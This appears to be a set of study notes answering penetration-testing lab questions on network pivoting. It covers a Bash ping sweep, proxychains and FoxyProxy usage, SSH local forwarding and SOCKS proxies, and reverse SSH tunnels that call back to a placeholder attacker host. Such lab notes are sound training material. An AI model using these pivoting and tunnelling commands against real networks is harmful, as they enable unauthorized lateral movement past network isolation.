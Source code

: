 **How could you see which IP addresses are active and allow ICMP echo requests on the 172.16.0.x/24 network using Bash?**

- `for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done`

* * * 

## Proxychains & Foxyproxy

**What line would you put in your proxychains config file to redirect through a socks4 proxy on 127.0.0.1:4242?**

- `socks4 127.0.0.1 4242`

**What command would you use to telnet through a proxy to 172.16.0.100:23?**

- `proxychains telnet 172.16.0.100 23`

**You have discovered a webapp running on a target inside an isolated network. Which tool is more apt for proxying to a webapp: Proxychains (PC) or FoxyProxy (FP)?**

- `FP`

* * * 

## Pivoting SSH Tunnelling / Port Forwarding 

__Forward Connections__

- SSH tunneling - Port forwarding is done with the `-L` flag `ssh -L LOCAL_PORT:LOCAL_IP:TARGET_PORT TARGET_USER@TARGET_IP -fN` where the `-f` flag background the shell so we can have our terminal back, `-N` tells SSH it doesnt need to execute any commands, just setup the connection.

- Proxies are done with `-D` - Example `-D 1337` This will open up port 1337 on on the attack box as a proxy to send data through the protected network. - example `ssh -D 1337 targetuser@targetip -fN`

__Reverse Connections__

We can make reverse connections with the SSH client if we have a shell on the server but not SSH acess. They are riskier though because we have to access our attacker machine from the target, via credentials or a key system. 

1. Generate a new set of SSH keys (`ssh-keygen`). This will create 2 keys a private and a public key.
2. Copy the contents of the publick key, then edit the `authorized_keys` file on our attacker machine (if `~/.ssh/authorized_keys` doesn't exist create it).
3. On a new line type the following then paste in the public key `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`
4. Make sure ssh service is running `sudo systemctl status ssh`
5. Now we have to transfer the generated SSH key to the box, which is why we made new throwaway SSH keys we must discard when the engagement is over.
6. With the key transferred, we can connect back with a reverse port forward with this command `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USER@ATTACKER_UP -i KEYFILE -fN`

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it: `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`
